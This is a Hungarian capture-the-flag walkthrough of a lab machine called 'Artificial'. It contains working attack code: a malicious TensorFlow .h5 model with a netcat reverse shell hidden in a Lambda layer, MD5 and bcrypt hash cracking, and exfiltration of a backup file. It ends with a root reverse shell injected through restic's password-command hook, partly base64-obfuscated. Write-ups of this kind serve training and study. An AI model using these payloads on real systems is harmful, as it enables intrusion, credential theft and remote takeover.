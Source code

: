 **Platform:** Linux\
**IP:** 10.10.11.74\
**Difficulty:** Easy\
**Author:** NoSec

---

## Recon

```bash
nmap -sC -sV -T4 10.10.11.74
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 14:07 CEST
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

**/etc/hosts szerkesztés:**

```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

---

## Web Enum

A weboldal login + regisztrációs lehetőséget ad. Sikeres regisztráció után .h5 fájlokat lehet feltölteni.

### Malicious TensorFlow modell generálása (tenserflow-cpu==2.13.1 a követelmény)

```python
# model_gen.py
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.44 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("nosechere.h5")
```

**Docker parancs:**

```bash
sudo docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 model_gen.py
```

Feltöltés után:

```bash
nc -lvnp 4444
```

---

## SQLite Database Enum

```bash
find / -type f \( -name "*.db" -o -name "*.sqlite3" \) 2>/dev/null
```

Megvan: `/home/app/app/instance/users.db`

```bash
sqlite3 /home/app/app/instance/users.db
.tables
.schema user
SELECT * FROM user;
```

### Hash crack (raw-md5):

```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Talált jelszavak:

```
mattp005
marwinn
```

---

## PrivEsc (Backup leak)

A `redteam-launcher` segíségével átnézve a backupokat(https://github.com/No4Sec/redteam-launcher):

```
/var/backups/backrest_backup.tar.gz
```

**Letöltés HTTP szerveren keresztül:**

```bash
cd /var/backups
python3 -m http.server
```

**Kalin:**

```bash
wget http://10.129.70.3:8000/backrest_backup.tar.gz
```

**Kitömörítés:**

```bash
tar -xvf backrest_backup.tar.gz
```

**config.json:**

```json
{
  "auth": {
    "users": [
      {
        "name": "backrest",
        "passwordBcrypt": "$2a$10$..."
      }
    ]
  }
}
```

Base64 decode után:

```bash
cat hash.txt | base64 -d
```

John bcrypt:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

---

## 🚪 Local RESTIC Web UI (port 9898)

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

Feltérépezés után megtalálható a Backrest login felület.

A korábban dumpolt jelszóval belépés után új repo-t adunk hozzá.

**Env variable exploit:**

```bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

**Fontos:** a `Hook` mezőbe ezt állítsuk be:

```bash
RESTIC_PASSWORD_COMMAND=echo 'YmFzaCAtaSAmJiAvZGVyL3RjcC8xMC4xNi4xMzUvNDQ0NCAwPiYxCg==' | base64 -d | bash
```

**Flag:** `ON_ERROR_IGNORE`

**Miért base64?** A mező nem kezeli rendesen az értelemmel rendelkezo parancsokat, ezért jobb base64-ben beküldeni, majd `-d | bash` dekódolja.

```bash
echo 'bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1' | base64
```

Majd submit, és shell vissza root joggal:

```bash
nc -lvnp 4444
```

```bash
(root㉿NoSec)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.74] 50526
bash: cannot set terminal process group (28638): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cd root
cd root
root@artificial:~# ls
ls
root.txt
scripts
root@artificial:~# 
```

---


## Összegzés

Az Artificial egy könnyű, mégis kreatív kihívás, ami több különböző vektort is összefűz:
- Gépi tanulási modellből indított reverse shell
- SQLite adatbázis feltárása és hash törés
- Backup fájlból kiszedett bcrypt jelszó
- RESTIC környezeti változón keresztüli RCE, ami végül root shellhez vezet

Külön érdekesség volt a `.h5` fájl alapú Tensorflow modellben elrejtett shellkód, valamint a RESTIC hook exploit, ami egy igazi hidden gem.

**Tanulság:**
- Soha ne bízz meg a feltöltött fájlokban
- Ne futtass backup szolgáltatást rootként ha nem muszáj
- És mindig nézd át a `.tar.gz` fájlokat – lehet benne meglepetés :)

---

## Root megvan. On to the next one. //

